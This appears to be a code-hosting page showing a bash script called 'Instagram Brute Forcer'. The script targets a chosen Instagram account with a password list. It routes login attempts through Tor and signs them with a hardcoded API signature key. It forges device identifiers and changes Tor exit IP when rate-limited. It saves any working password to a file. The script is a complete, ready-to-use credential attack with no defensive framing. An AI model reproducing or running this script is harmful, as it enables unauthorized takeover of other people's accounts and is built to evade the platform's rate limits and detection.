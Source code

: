 # shell
79 sloc)  3.66 KB   #!/bin/bash # Coded by @thelinuxchoice (Instagram) checkroot() { if [[ "$(id -u)" -ne 0 ]]; then     printf "\e[1;77mPlease, run this program as root!\n\e[0m"     exit 1 fi }  banner() {  printf "\e[1;92m     _                                   _             _  _           \e[0m\n" printf "\e[1;92m _  | |                _                | |           | || |          \e[0m\n" printf "\e[1;92m( \ | | ____    ___  _| |_  _____   ___ | |__   _____ | || |          \e[0m\n" printf "\e[1;92m ) )| ||  _ \  /___)(_   _)(____ | /___)|  _ \ | ___ || || |          \e[0m\n" printf "\e[1;77m(_/ | || | | ||___ |  | |_ / ___ ||___ || | | || ____|| || |  _____   \e[0m\n" printf "\e[1;77m    |_||_| |_|(___/    \__)\_____|(___/ |_| |_||_____) \_)\_)(_____)  \e[0m\n" printf "\n" printf "\e[1;77m\e[45m                     Instagram Brute Forcer. Author: @thelinuxchoice\e[0m\n" printf "\n" }  banner checkroot read -p $'\e[1;92mUsername account: \e[0m' user read -p $'\e[1;92mPassword List: \e[0m' wl_pass  checktor() {  check=$(curl --socks5 localhost:9050 -s https://check.torproject.org > /dev/null; echo $?)  if [[ "$check" -gt 0 ]]; then printf "\e[1;91mPlease, start TOR!\n\e[0m" exit 1 fi  }   function changeip() {  killall -HUP tor sleep 3  }  string8=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 8 | head -n 1) string4=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 4 | head -n 1) string12=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 12 | head -n 1) string16=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 16 | head -n 1) device="android-$string16" uuid=$(cat /dev/urandom | tr -dc 'az0-9' | fold -w 32 | head -n 1) phone="$string8-$string4-$string4-$string4-$string12" guid="$string8-$string4-$string4-$string4-$string12" var=$(curl -i -s -H "$header" https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&amp;guid=$uuid > /dev/null) var2=$(echo $var | awk -F ';' '{print $2}' | cut -d '=' -f3) #echo $var2  function bruteforcer() {  checktor for pass in $(cat $wl_pass); do  header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'  data='{"phone_id":"$phone", "_csrftoken":"$var2", "username":"'$user'", "guid":"$guid", "device_id":"$device", "password":"'$pass'", "login_attempt_count":"0"}' ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"   hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2) printf "\e[1;77mTrying pass\e[0m: %s\n" $pass check=$(curl --socks5 127.0.0.1:9050 -d "ig_sig_key_version=4&amp;signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Instagram 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.instagram.com/api/v1/accounts/login/" | grep -o '200\|challenge\|many tries\|Please wait' | uniq) #echo $check if [[ "$check" == "200" ]]; then printf "\e[1;92m [*] Password Found: %s \n\e[0m" $pass printf "Username: %s, Password: %s\n" $user $pass >> found.instashell printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m" exit 1 fi  if [[ "$check" == "challenge" ]]; then printf "\e[1;92m [*] Password Found: %s\n" $pass printf "\e[1;92m [*] Challenge required\n" printf "Username: %s, Password: %s\n" $user $pass >> found.instashell printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instashell \n\e[0m" exit 1 fi   if [[ "$check" == "many tries" ]]; then  printf "\e[1;31m [*] Changing IP Address...\n\e[0m" changeip  fi if [[ "$check" == "Please wait" ]]; then  printf "\e[1;31m [*] Changing IP Address...\n\e[0m" changeip  fi  done }  bruteforcer
